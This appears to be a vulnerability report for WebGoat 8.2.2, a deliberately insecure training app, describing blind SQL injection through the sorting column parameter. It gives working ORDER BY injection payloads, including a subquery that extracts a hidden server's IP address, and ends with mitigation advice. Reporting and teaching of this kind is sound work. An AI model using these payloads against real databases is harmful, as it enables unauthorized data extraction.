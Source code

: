 # WebGoat. List of servers. Sorting criteria is vulnerable to SQL injection.
Sorting criteria in requests to the Servers Listing endpoint is vulnerable to SQL injection. 
It is possible to substitute extended ORDER BY statement instead of valid column name in request parameters. 
Then it is possible to obtain information about hidden servers from DB - IP address, MAC address, status, etc.

## Requirements Violation
The following requirements are violated:
- [Application Security Requirements v. 4.0] [11.1.6] Data Validation should be implemented according to given strategies.
- [Application Security Requirements v. 4.0] [13.4] Mitigating SQL injection.

## Business Impact
- Unauthorized access to system data.
- Facilitating other types of attack.

## Pre-requisites 
Valid user account. 

## Steps to Reproduce
1. Login to the application. Use valid session for the following requests. 
2. Make GET request to the `WebGoat/SqlInjectionMitigations/servers` endpoint with parameter `column=id`. You will see the list of servers sorted by id: 
```json
    [ {
      "id" : "1",
      "hostname" : "webgoat-dev",
      "ip" : "192.168.4.0",
      "mac" : "AA:BB:11:22:CC:DD",
      "status" : "online",
      "description" : "Development server"
    }, {
      "id" : "2",
      "hostname" : "webgoat-tst",
      "ip" : "192.168.2.1",
      "mac" : "EE:FF:33:44:AB:CD",
      "status" : "online",
      "description" : "Test server"
    }, {
      "id" : "3",
      "hostname" : "webgoat-acc",
      "ip" : "192.168.3.3",
      "mac" : "EF:12:FE:34:AA:CC",
      "status" : "offline",
      "description" : "Acceptance server"
    }, {
      "id" : "4",
      "hostname" : "webgoat-pre-prod",
      "ip" : "192.168.6.4",
      "mac" : "EF:12:FE:34:AA:CC",
      "status" : "offline",
      "description" : "Pre-production server"
    } ]
```
3. Make the similar request but with `column=hostname`. You will see the same list sorted by hostname:
```json
[ {
  "id" : "3",
  "hostname" : "webgoat-acc",
  "ip" : "192.168.3.3",
  "mac" : "EF:12:FE:34:AA:CC",
  "status" : "offline",
  "description" : "Acceptance server"
}, {
  "id" : "1",
  "hostname" : "webgoat-dev",
  "ip" : "192.168.4.0",
  "mac" : "AA:BB:11:22:CC:DD",
  "status" : "online",
  "description" : "Development server"
}, {
  "id" : "4",
  "hostname" : "webgoat-pre-prod",
  "ip" : "192.168.6.4",
  "mac" : "EF:12:FE:34:AA:CC",
  "status" : "offline",
  "description" : "Pre-production server"
}, {
  "id" : "2",
  "hostname" : "webgoat-tst",
  "ip" : "192.168.2.1",
  "mac" : "EE:FF:33:44:AB:CD",
  "status" : "online",
  "description" : "Test server"
} ]
```
4. Make a request with SQL injection in column parameter value `column=case when true then id else hostname end;`. You will see servers list sorted by id. 
5. Make another request with SQL injection where `column=case when false then id else hostname end;`. You will see servers list sorted by hostname.
It means that application accepts SQL injection in ORDER BY statement of the query. And then it is possible to retrieve information from DB by managing blind SQL injection attack.
For example, make a request with `column=case when (select cast(substring(ip, 1, 3) as int) < 110 from servers where hostname='webgoat-prd') then id else hostname end;`. Response will contain list of servers sorted by id.
So we can conclude that the first number of IP address of the production server is less than 110. Having a few of such requests done it is possible to obtain the full IP address of the server.

**Expected result:** Requests with unexpected values of column parameter are rejected.  
**Actual result:** Requests with unexpected column parameter values are handled as valid. 

## Mitigation Recommendations
1. Define a restricted set of column names which are valid to use as a sorting criteria. Reject any column values not present in the defined set.
2. Use prepared statements to run SQL queries, use all variable values as prepared statement parameters. 
3. See https://cheatsheetseries.owasp.org/cheatsheets/SQL_Injection_Prevention_Cheat_Sheet.html

## Additional Information
**Version**: 8.2.2  
**CVSS**: https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:L/I:N/A:N